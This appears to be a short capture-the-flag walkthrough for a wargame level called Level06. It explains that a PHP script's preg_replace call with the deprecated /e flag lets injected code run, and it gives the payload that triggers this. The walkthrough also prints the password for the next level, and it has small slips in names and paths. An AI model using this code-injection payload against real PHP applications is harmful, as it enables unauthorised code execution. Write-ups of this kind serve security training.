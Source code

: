### Level06

We have an executable and a .php file on the HOME. Looking at the 2nd file we can see a call to `preg_replace` with the deprecated flag `/e`. This flag will then allow us to make a call to exec with the rights of flag04. But to do this we need to match the regex in this line `$a = preg_replace("/(\[x (.*)\])/e", "y(\"\2")", $a);`. 

Let's start by creating our file: ``echo '[x {${`getflag`}}' > /tmp/exploit``.

Now we just need to run `./level06` with `./tmp/exploit` as an argument

We just have to connect to the level07 with `wiok45aaoguiboiki2tuin6ub` as password
